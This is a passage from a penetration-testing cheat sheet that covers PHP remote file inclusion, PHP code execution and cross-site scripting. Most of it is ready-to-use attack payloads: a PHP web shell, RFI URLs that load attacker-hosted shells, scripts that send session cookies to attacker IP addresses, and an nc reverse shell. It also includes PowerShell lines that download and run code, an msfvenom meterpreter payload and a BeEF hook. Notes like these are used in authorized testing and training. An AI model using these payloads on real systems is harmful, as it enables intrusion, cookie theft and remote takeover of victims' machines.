     	ex. make and host a local evil.txt file:  <?php echo shell_exec($_GET['cmd']); ?>
                http://10.11.0.22/menu.php?file=http://10.11.0.4/evil.txt&cmd=ipconfig
        Try shell saved as .txt, .php, etc. - see what type of scripts the site uses
        works if allow_url_fopen and allow_url_include both = On in the file /etc/php5/cgi/php.ini -- php.ini location is seen in phpinfo.php file
		Even if off: possible through SMB in some PHP versions!
        ex. Using reverse.txt php shell:  `?page=http://1.2.3.4/reverse.txt?  OR:  ?page=http://1.2.3.4/reverse.txt%00`
	
	PHP Execution:
		?code=phpinfo()
		?code=system('id'); (if single line output)
		?code=echo shell_exec('/sbin/ifconfig eth0'); (if multiple line output)
  
## Cross-Site Scripting (XSS):  

	If you can execute reflected or stored .js code
	3 types: persistent/stored, reflected, DOM based
        	Stored: look for comments, reviews, user profile, guestbook, contact form, etc.
        	Reflected: search box, etc.
	Checks:
		Cheat Sheet:  https://www.jb51.net/tools/xss.htm
        	Look for unsanitized input that is displayed as output; characters to try:  < > ' " { } ;  -> Check Source Code; see how they're stored
		Try javascript code in all input boxes, username/password (if displays incorrect username), search (if results display the searched keywords) -- or URLs
	Techniques & Payloads:
		Test:  <script>alert("XSS")</script>
			<script>alert(123)</script>
		Script:  <img src="10.10.14.18/test.jpg" /> <script src="http://10.10.14.18/test.js"></script>
		Steal Cookie (if Secure and HTTPOnly flags not set):
			Example 1:  <script>new Image().src="http://10.10.28.40:8000/cool.jpg?output="+document.cookie;</script> ; sudo nc -nvlp 80
			Example 2:  <script>document.location="http://10.10.14.18 username="+document.cookie;</script>
			Example 3:
				function pwn() {
				    var img = document.createElement("img");
				    img.src = "http://10.10.14.18/xss?=" + document.cookie;
				    document.body.appendChild(img);
				}
				pwn();
				<script src=http://10.10.14.18/xss.js></script>
				//Quotes typically not required
		Reverse Shell:  <img src=http://10.10.15.25/$(nc.traditional$IFS-e$IFS/bin/bash$IFS'10.10.15.25'$IFS'4444')>
		Windows Reverse Shell (if the website can run the dir command):
			Method 1:  <script>callSys("dir | powershell IEX(New-Object Net.WebClient).DownloadString('http://10.10.14.18:80/mini-reverse.ps1')");</script>
			Better Method:  msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.14.18 LPORT=4444 -f exe -o payload.exe
				<script>callSys("dir | powershell IEX(New-Object Net.WebClient).DownloadFile('http://10.10.14.18:80/payload.exe','C:/temp/payload.exe')");</script>	
		Session Hijack (upload BEEF hook): <script src="http://1.2.3.4:3000/hook.js"></script>  (copy from beef program)
	If XSS works, try SSTI!!
		